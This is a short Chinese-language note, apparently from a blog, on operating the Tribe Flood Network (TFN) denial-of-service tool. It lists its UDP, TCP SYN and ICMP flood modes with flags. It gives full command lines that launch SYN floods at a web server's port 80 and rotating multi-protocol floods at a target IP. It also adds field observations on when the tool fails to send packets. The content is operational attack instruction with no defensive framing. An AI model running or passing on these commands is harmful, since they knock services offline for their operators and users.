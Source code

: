 
## TFN发动的攻击包括：

* UDPflood（-c 6)

* TCP SYN flood(-c 5) 

* ICMPreply flood(-c 7)


 
### SYN/TCP攻击并设攻击端口（假设对方是WWW SERVER）

`# ./tfn　-f　hosts.txt　-c　5　-i　192.168.111.88　-p　80`
 

 
### ICMP/TCP/UDP轮流攻击：

`#./tfn　-f　hosts.txt　-c　8　-i　192.168.111.88`

> 会按TCP/UDP/ICMP的轮替方式发攻击包。
  
> tfn 发起攻击，如果目标不可达，比如没路由，PING不通等，他没有任何显示，就是tcpdump下不发包
  
> tfn 只能对IP地址前两个数字至少有一个>100的地址发攻击，即tfn无法攻击10.1.1.1 这是反复实验得来的。

> 一开始发现在192地址下发起攻击有效，但在10的地址下发起攻击无效.
 
 
[1]: http://blog.sina.com.cn/s/blog_6151984a0100exma.html
 
